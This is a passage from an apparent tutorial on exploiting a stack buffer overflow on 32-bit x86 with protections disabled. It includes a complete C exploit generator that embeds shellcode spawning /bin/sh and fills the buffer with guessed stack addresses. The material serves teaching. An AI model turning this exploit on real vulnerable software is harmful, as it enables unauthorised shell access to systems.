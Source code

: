 I have done this with the `printf` function, but you can use python for example, or any tool that allows you to repeat characters multiple times without a lot of effort.

According to this little test, we overwrite the return address when we input 132 bytes.

We know we are overwriting the return address because we obtain a [segmentation fault.](https://en.wikipedia.org/wiki/Segmentation_fault)

Segmentation faults occur when **a concrete memory area is accessed by someone who shouldn’t be accessing it.**

What we need to do now, is to find where our shellcode begins, and overwrite the return address with that value.

To find where the shellcode begins, we start from the assumption that every program’s stack begins at the same memory address (which is not true in modern machines, but we have disabled such protection).

To obtain the stack pointer, we can add some inline assembly to our exploit :

```c
unsigned int get_sp() {
    __asm__("movl %esp, %eax);
}
```

Functions in x86-32 (IA-32) architectures return whatever is inside the `EAX` register, hence this function will return the address pointed by the stack pointer.

Once we know this value, we can create an array to host our shellcode, and fill the rest of the buffer with the stack pointer address to try to overflow the victim’s buffer:

```c
#define BUFF_SIZE 180
#include <stdio.h>

unsigned char sc[] = 
        "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08"
        "\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8"
        "\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc3"
        ;

unsigned int get_sp() {
    __asm__("movl %esp, %eax");
}

void main(int argc, char** argv) {
    unsigned int sp = get_sp();
    unsigned char buff[BUFF_SIZE] = {0};
    unsigned int *p_buff = (unsigned int*) buff;
    unsigned char *p_cbuff;

    // Fill the whole array with the stack pointer value
    for(int i = 0; i < BUFF_SIZE; i+=4) {
        *(p_buff++) = (unsigned int) sp;
    }

    // Set a new pointer to the beginning of the array
    p_cbuff = (unsigned char *) buff;

    // Put our shellcode in the array
    for(int i = 0; i < (sizeof(sc) - 1); i++) {
        *(p_cbuff++) = sc[i];
    }

    // Print the array to stdout
    // The array has the form : "shellcode, sp_addr, sp_addr, sp_addr ... "
    puts(buff);
}
```